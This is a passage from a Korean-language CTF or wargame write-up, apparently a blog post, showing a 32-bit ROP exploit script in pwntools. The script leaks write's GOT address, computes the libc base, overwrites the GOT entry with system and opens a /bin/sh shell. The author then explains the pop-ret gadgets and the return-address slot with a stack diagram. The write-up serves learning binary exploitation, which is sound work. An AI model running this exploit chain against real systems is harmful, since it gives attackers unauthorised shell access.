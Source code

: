 ```py
payload += p32(1)
payload += p32(write_got)
payload += p32(0x4)

payload += p32(read_plt)
payload += p32(pop_x3_ret_addr)
payload += p32(0)
payload += p32(binsh)
payload += p32(0x8)

payload += p32(read_plt)
payload += p32(pop_x3_ret_addr)
payload += p32(0)
payload += p32(write_got)
payload += p32(0x4)

payload += p32(write_plt)
payload += p32(0)
payload += p32(binsh)

p.send(payload)
# result = p.recvall()
# in order to check the result of write()

p.recvuntil(b'A'*0x40)
write_addr = u32(p.recvn(4))
libc_base = write_addr - write_offset
system_addr = libc_base + libc.symbols['system']

p.send(b'/bin/sh\x00')
p.send(p32(system_addr))

print(hex(write_addr))
print(hex(libc_base))
print(hex(system_addr))

p.interactive()
```

이번 코드에서는 /bin/sh\x00를 64비트때처럼 전달하는데에 EOF 에러가 발생하여 (내 예상은 8바이트짜리 문자열이라 문제가 생기는 것 같다.) 별도로 bss()영역에 문자열을 저장하는 것으로 수정하였다. 여기서 후반부 부분에 GOT overwrite 된 system함수를 호출하는 부분에서 의문이 생겼는데, **'왜 다른 부분에서는 return gadget을 삽입하는데, 여기서는 삽입하지 않는거지? 또 wrtie_plt와 binsh 사이에 0은 무엇을 의미할까?'** 였다. 참고로 이 부분은 다른 분의 해결책을 참고하여 작성하였기 때문에 이런 의문이 생겼다.

<br/>

그렇게 계속 고민을 하다가 결국 의문점을 해결했다. pop ret 가젯을 32비트에서 작성하는 이유는, **그 다음 가젯이 있을 때, pop으로 parameter들을 건너뛰고 esp레지스터를 옮겨야 다음에 이어지는 함수를 실행시킬 수 있어서**이기 때문인데, 마지막 system 함수 호출때는 그 다음 들어올 가젯이 없고 이 함수가 마지막 함수이기 때문에 pop 가젯을 쓸 필요가 없는 것이다. 그리고, **사이에 껴있는 0의 의미는 return address**이다. Stack Frame 할당시의 스택 상태도를 간략하게 나타내보면,

```
0x0000...   |..                |
            |함수 내 지역변수 x|
            |함수 내 지역변수 y|
            |saved EBP         |
            |return address    |
            |parameter a       |
            |parameter b       |
            |parameter c       |
0xffff...   |..                |
```
